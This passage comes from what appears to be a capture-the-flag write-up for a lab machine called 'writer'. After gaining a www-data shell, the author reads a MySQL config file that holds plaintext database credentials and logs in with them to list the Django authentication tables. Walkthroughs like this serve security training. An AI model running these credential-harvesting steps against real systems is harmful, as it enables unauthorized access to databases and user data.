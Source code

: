 ```Awk
LISTEN    0         128                   [::]:22                  [::]:*
```

So, port 8080 can likely be assumed to be the second website we observed earlier in the Apache config file. Port 445, 139, 22, and 80 we already know from the nmap scan. Port 53 is most likely local DNS.  Port 3306 is the MySQL database.  But port 25 is SMTP so there is likely a mail server running on this machine.

Continuing our research, we can now navigate to the `writer2_project` directory, and we see more Python Django files, including a `settings.py` file which could prove useful:
```Awk
www-data@writer:/var/www/writer2_project/writerv2$ cat settings.py | grep mysql
        'ENGINE': 'django.db.backends.mysql',
            'read_default_file': '/etc/mysql/my.cnf',
```

This points us to another file which just happens to have database credentials in plaintext:
```Awk
www-data@writer:/var/www/writer2_project/writerv2$ tail /etc/mysql/my.cnf

# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```

### Database Inspection

So now we can login to the database and inspect the tables:
```Awk
www-data@writer:/var/www/writer2_project/writerv2$ mysql -u djangouser -p
Enter password:

MariaDB [dev]> show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.001 sec)
```
